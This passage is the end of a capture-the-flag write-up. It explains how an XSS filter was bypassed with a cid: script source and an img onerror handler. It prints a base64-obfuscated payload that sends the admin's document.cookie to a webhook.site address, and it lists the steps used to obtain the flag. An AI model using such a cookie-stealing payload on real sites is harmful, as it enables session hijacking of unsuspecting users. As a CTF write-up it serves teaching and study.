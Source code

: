 After `adrum.1` prefix, we can add any payload as long as it ends with `.js` suffix. We tried a simple payload shown below but it returns a urlencoded string, unfortunately.

```html
<script 
  src="adrum.1<u>foo.js">
</script>

<!-- it returns http://example.org/adrum.1%3Cu%3Efoo.js -->
```

Although it looks like a dead at the first glance, we knew a bypass to this already and which is a custom protocol that does not enforce percent-encoding. One of them is `cid:`, so by sending the below payload the alert pops out.


```html
<script 
  src="cid:adrum.1<img src=x onerror=alert(1)>123.js">
</script>
```

### Summary

To sum up, we performed the following steps to retrieve the flag.

1. We submitted two pages to the server:
```html
<script
  src="https://.....................................adnjs.cloudflare.com/ajax/libs/video.js/12312/">
</script>
```

and 

```html
<script 
  src="cid:adrum.1<img/src=a onerror=eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzFjZTczNTFlLWE5MDctNGYzMy04Nzc2LWY4MDZlYTYyYzU3Yy8/Yz0nK2VzY2FwZShkb2N1bWVudC5jb29raWUpKQ=='))>.js">
</script>

<!-- base64 decoded:
fetch('https://webhook.site/1ce7351e-a907-4f33-8776-f806ea62c57c/?c='+escape(document.cookie))
-->
```


2. We got the path from the error message: `pages/b699e61f9d5ce40a7caa8d7b3e66be98979a5b9f838073a833739c8b3f54d726/77f5aaead21d-home.html` and sent the replaced one `pages/b699e61f9d5ce40a7caa8d7b3e66be98979a5b9f838073a833739c8b3f54d726/77f5aaead21d-about.html` to the admin.

3. We enjoyed the flag that arrived at our server directly from the admin's cookies ;)  


*We recorded these steps in the form of a video: https://youtu.be/bXBSTmWqVys, enjoy!*

**CTF-BR{stackoverflow.com/revisions/1732454/11}**

Thanks to the authors for such an enjoyable puzzle!
